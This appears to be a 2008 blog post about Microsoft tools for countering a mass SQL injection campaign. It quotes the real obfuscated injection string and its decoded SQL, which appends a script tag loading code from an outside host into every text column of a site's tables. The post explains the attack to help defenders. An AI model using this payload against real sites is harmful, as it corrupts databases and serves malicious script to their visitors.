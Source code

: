```yaml
---
title: Microsoft Has Released Tools To Address SQL Injection Attacks
author: SQLDenis
type: post
date: 2008-06-25T11:37:29+00:00
url: /index.php/webdev/webdesigngraphicsstyling/microsoft-has-released-tools-to-address/
views:
  - 5242
rp4wp_auto_linked:
  - 1
categories:
  - Classic ASP
  - Microsoft IIS
  - Web Design, Graphics and Styling

---
```

Microsoft has released 3 tools that deal with the recent SQL injection attack.
  
These three tools include [HP Scrawlr][1] , [UrlScan][2] version 3.0 Beta , and a [SQL Source Code Analysis Tool][3]. Microsoft further recommends following the best practices found within security advisory [954462][4]. 

Most of the sites affected had this submitted as part of the injection 

<pre>DECLARE%20@S%20VARCHAR(4000);SET%20@S=CAST(0x4445434C415 245204054205641524348415228323535292C40432056415243
4841522832353529204445434C415245205461626C655 F437572736F7220435552534F5220464F522053454C45435420612E6 E616D652C622E6E616D652046524F4D207379736F626A65637473206 12C737973636F6C756D6E73206220574845524520612E69643D622E6 96420414E4420612E78747970653D27752720414E442028622E78747 970653D3939204F5220622E78747970653D3335204F5220622E78747 970653D323331204F5220622E78747970653D31363729204F50454E2 05461626C655F437572736F72204645544348204E4558542046524F4 D205461626C655F437572736F7220494E544F2040542C40432057484 94C4528404046455443485F5354415455533D302920424547494E204 55845432827555044415445205B272B40542B275D20534554205B272 B40432B275D3D525452494D28434F4E5645525428564152434841522 834303030292C5B272B40432B275D29292B27273C736372697074207 372633D687474703A2F2F7777772E63686B626E722E636F6D2F622E6 A733E3C2F7363726970743E27272729204645544348204E455854204 6524F4D205461626C655F437572736F7220494E544F2040542C40432 0454E4420434C4F5345205461626C655F437572736F72204445414C4 C4F43415445205461626C655F437572736F7220%20AS%20VARCHAR(4000));EXEC(@S);</pre>

This is of course done so that you can&#8217;t see the real SQL and then you can&#8217;t check for DROP, UPDATE and other DDL and DML commands 

So what does this look like when you replace %20 with a space and exec with print?

<pre>DECLARE Table_Cursor 
CURSOR FOR SELECT a.name,b.name FROM sysobjects a,syscolumns b 
WHERE a.id=b.id AND a.xtype='u' AND (b.xtype=99 OR b.xtype=35 OR b.xtype=231 OR b.xtype=167) OPEN Table_Cursor 
FETCH NEXT FROM Table_Cursor INTO @T,@C 
WHILE(@@FETCH_STATUS=0) 
BEGIN 
EXEC('UPDATE ['+@T+'] SET ['+@C+']=RTRIM(CONVERT(VARCHAR(4000),['+@C+']))+''&lt;script src=http://www.chkbnr.com/b.js&gt;&lt;/script&gt;''')
 FETCH NEXT FROM Table_Cursor INTO @T,@C 
END CLOSE Table_Cursor DEALLOCATE Table_Cursor  </pre>

Somehow I think this could have been written set based 🙂

The problem is of course that you should never ever run as dbo or even worse sa.

 [1]: http://www.communities.hp.com/securitysoftware/blogs/spilabs/archive/2008/06/23/finding-sql-injection-with-scrawlr.aspx
 [2]: http://learn.iis.net/page.aspx/473/using-urlscan
 [3]: http://support.microsoft.com/kb/954476
 [4]: http://www.microsoft.com/technet/security/advisory/954462.mspx